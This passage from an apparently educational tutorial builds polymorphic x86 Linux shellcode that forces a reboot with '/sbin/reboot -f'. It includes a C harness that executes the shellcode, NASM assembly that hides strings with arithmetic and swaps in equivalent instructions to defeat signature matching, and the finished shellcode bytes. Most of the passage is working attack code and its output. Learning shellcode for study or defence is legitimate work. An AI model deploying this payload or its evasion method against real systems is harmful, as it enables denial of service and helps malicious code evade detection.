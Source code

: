 ```
  printf("Shellcode Length:  %d\n", strlen(shellcode));
  int (*ret)() = (int(*)())shellcode;
  ret();
}
$ ./myshellcode
Length: 36
reboot: Need to be root
$
```
Excellent. That should speed up productivity. We can see from the output that when we execute the shellcode c program that it does in fact try to run (although you need to be root to reboot the system).

Since we know that it works, lets start making it polymorphic.

## Polymorphic Reboot Shellcode
Returning to our original shellcode, replace some instructions with equivalent instructions and add some NOP garbage as well:
```
global _start
section .text
  _start:
    ; zero out eax
    xor    eax,eax

    push   eax        ; place 0x00000000 on the stack

    ;push   0x746f6f62 ; push toob to the stack
    mov ebx, 0x736e6e61 ; place obfuscated toob in ebx
    add ebx, 0x01010101 ; add to bring ebx to 0x746f6f62
    push ebx ; push toob to the stack

    ;push   0x65722f6e ; push er/n to the stack
    ;push   0x6962732f ; push ibs/ to the stack
    mov dword [esp-4],  0x65722f6e ; push er/n to the stack
    mov dword [esp-8], 0x6962732f ; push ibs/ to the stack
    sub esp, 8

    mov    ebx,esp    ; place pointer to /sbin/reboot string on stack
    push   eax        ; place 0x00000000 on the stack
    push word 0x662d  ; push f- to the stack
    mov    esi,esp    ; place pointer to -f argument to the stack
    push   eax        ; push 0x00000000 on the stack
    push   esi        ; place pointer to -f argument on the stack
    push   ebx        ; place pointer to /sbin/reboot string on the stack
    mov    ecx,esp    ; move pointer to argument array /sbin/reboot, -f on the stack

    mov    al,0xb     ; place system call 11 (execve) in al

    int    0x80       ; call execve
Lets compile our new polymorphic reboot version and see if it still works:

$ ./compile.sh polyreboot
[+] Assembling with Nasm ...
[+] Linking ...
[+] Done!
$ ./polyreboot
reboot: Need to be root
$ asmtocstub polyreboot polyrebootstub
The bytes of the shellcode are:
"\x31\xc0\x50\xbb\x61\x6e\x6e\x73\x81\xc3\x01\x01\x01\x01\x53\xc7\x44\x24\xfc\x6e\x2f\x72\x65\xc7\x44\x24\xf8\x2f\x73\x62\x69\x83\xec\x08\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80"
```